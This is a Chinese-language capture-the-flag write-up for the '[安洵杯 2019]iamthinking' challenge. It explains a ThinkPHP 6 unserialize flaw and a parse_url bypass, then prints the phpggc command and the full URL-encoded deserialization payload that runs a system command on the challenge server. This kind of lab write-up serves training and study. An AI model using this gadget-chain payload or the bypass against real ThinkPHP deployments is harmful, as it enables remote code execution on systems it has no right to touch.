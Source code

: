 ```yaml
---
title: '[安洵杯 2019]iamthinking'
date: 2024-09-23 22:00:31
tags: thinkphp
categories: 刷题笔记
---
```


## [安洵杯 2019]iamthinking

我们扫描目录能发现一个www.zip文件

![image-20240923220135671](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409232201973.png)

我们进行访问

![image-20240923220531335](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409232205410.png)

发现这是topthink框架，也就是thinkphp框架

<!--more-->

我们在index.php里发现一个unserialize反序列化，不出意外的话，这道题考的是反序列化

但我们发现前面还有个正则匹配，我们需要绕过parse_url

[parse_url小结](https://www.cnblogs.com/tr1ple/p/11137159.html)

接下来就是找利用链了，这里懒得自己找了，上网搜了一波thinkphp6反序列化漏洞，这里我是看了这个[文章](https://xz.aliyun.com/t/6479),照着他的思路过了一遍源代码，确认他没有修改源代码，就可以利用了，这个链有大佬已经放到了phpggc上，直接生成就行

```
php  phpggc ThinkPHP/RCE3 system 'cat /flag' --url

```

```
O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A9%3A%22cat%20%2Fflag%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D
```

然后我们访问public，在进行传参

```
http://f6978a90-3d95-4f01-baba-7bcb4d454e24.node5.buuoj.cn:81///public/?payload=O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A9%3A%22cat%20%2Fflag%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D

```

得到flag
